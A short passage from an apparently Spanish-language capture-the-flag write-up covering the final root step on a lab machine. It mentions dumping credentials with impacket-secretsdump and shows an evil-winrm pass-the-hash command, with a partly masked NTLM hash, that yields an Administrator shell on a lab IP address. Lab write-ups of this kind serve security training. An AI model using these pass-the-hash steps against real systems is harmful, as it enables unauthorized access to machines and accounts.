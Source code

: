 ## Root.txt

- Después de descargar los archivos y usar `impacket-secretsdump` nos conectamos como el **Administrator**.

```bash
➜  ~ evil-winrm -i 10.10.88.84 -u Administrator -H ee4457**********************

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
baby\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

- Aquí vemos la flag.

<p align="center">
<img src="https://i.imgur.com/Si0Gzuk.png">
</p>

